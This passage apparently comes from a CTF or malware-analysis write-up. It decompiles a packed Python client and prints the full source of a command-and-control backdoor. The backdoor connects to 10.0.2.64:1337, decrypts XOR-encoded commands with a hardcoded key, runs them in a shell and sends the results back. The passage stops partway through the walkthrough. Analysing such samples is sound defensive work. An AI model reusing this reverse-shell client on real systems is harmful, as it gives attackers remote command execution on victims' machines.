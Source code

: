 `pyinstxtractor` indicates that `client.pyc` may serve as the entry point, but it is currently compiled **Python** code. We can use [uncompyle6](https://github.com/rocky/python-uncompyle6) to decompile it.

```console
$ uncompyle6 client_extracted/client.pyc > client.py
```

Upon reviewing the `client.py` script, we find that it is fairly basic.

```py
import socket, base64, subprocess, sys
HOST = "10.0.2.64"
PORT = 1337

def xor_crypt(data, key):
    key_length = len(key)
    encrypted_data = []
    for i, byte in enumerate(data):
        encrypted_byte = byte ^ key[i % key_length]
        encrypted_data.append(encrypted_byte)
    else:
        return bytes(encrypted_data)


with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
    while True:
        received_data = s.recv(4096).decode("utf-8")
        encoded_image, encoded_command = received_data.split("AAAAAAAAAA")
        key = "MySup3rXoRKeYForCommandandControl".encode("utf-8")
        decrypted_command = xor_crypt(base64.b64decode(encoded_command.encode("utf-8")), key)
        decrypted_command = decrypted_command.decode("utf-8")
        result = subprocess.check_output(decrypted_command, shell=True).decode("utf-8")
        encrypted_result = xor_crypt(result.encode("utf-8"), key)
        encrypted_result_base64 = base64.b64encode(encrypted_result).decode("utf-8")
        separator = "AAAAAAAAAA"
        send = encoded_image + separator + encrypted_result_base64
        s.sendall(send.encode("utf-8"))
```
{: file="client.py" }

First, it starts a socket and binds it to `10.0.2.64:1337`.

```py
HOST = "10.0.2.64"
PORT = 1337

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
```

After that, it enters a loop and waits to receive data. When it receives data, it saves it in the `received_data` variable.
